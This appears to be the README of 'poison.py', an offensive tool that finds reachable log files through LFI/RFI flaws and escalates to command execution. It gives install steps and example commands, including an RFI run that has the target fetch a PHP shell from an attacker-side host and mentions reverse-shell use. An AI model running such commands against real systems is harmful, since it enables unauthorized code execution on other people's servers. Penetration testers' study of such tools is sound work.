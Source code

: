 # poison.py
Fast tool to search accessible log's files for LFI/RFI vulnerabilities, and automatic escalation to shell
all the wordlists and payloads is included

## Exploitation:
![Preview](https://github.com/user-attachments/assets/8d658876-79d6-41f1-9456-91681be9782e)


## Installation:
```
git clone https://github.com/coldt3ars/poison
cd poison
pip install -r requirements.txt
python3 poison.py
```
## Example usage (LFI):
```
./poison.py -u 'http://127.0.0.1/file.php?file=' -e 'id' -p src/payloads.txt -w src/small.txt
```
_____________________________________________________________________________________________
```
-u 'http://127.0.0.1/file.php?file=' # URL for poison the log
```

```
-e 'id' # Command to execute (In this time, command is id) (this option can be used for rev. shell)
```

```
-p src/payloads.txt # list of paylods during the poisoning
```

```
-w src/small.txt # wordlist using the search for available log's file
```
## Example usage (RFI):
```
/poison.py -u 'http://127.0.0.1/index.php?page=' --rfi --lhost 10.10.10.10 --rhost 127.0.0.1 --rport 14852 --lfile 'src/shell.php' -e 'id' --cookie 'PHPSESSID=1234567890'
```
![screenshot](https://github.com/user-attachments/assets/061fdbe8-5b76-43d8-816f-068abf521744)
_____________________________________________________________________________________________
```
--rfi # Remote File Inclusion option
```

```
--lhost 10.10.10.10 # which network interface to bind the local HTTP server to (necesssary only on remote explotiation)
```

```
-rhost 127.0.0.1 # remote-ip-address of http-server in request during the RFI
```

```
--rport 14852 # remote-port of http-server in request during the RFI
```

```
--lfile 'src/shell.php' # payload which include in the request during the RFI
```

```
-e 'id' # command for src/shell.php 
```

```
--cookie 'PHPSESSID=1234567890' # cookie for authorized requests
```

# ToDo list:
-   [x] Add the function with command execution
-   [x] Add the support of wordlist's
-   [ ] Add different injection endpoints (Headers)
-   [ ] Interactive shell 
-   [X] Add the function for RFI

# FOR EDUCATIONAL PURPOSES ONLY!
Usage of poison.py for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Author assume no liability and are not responsible for any misuse or damage caused by this program

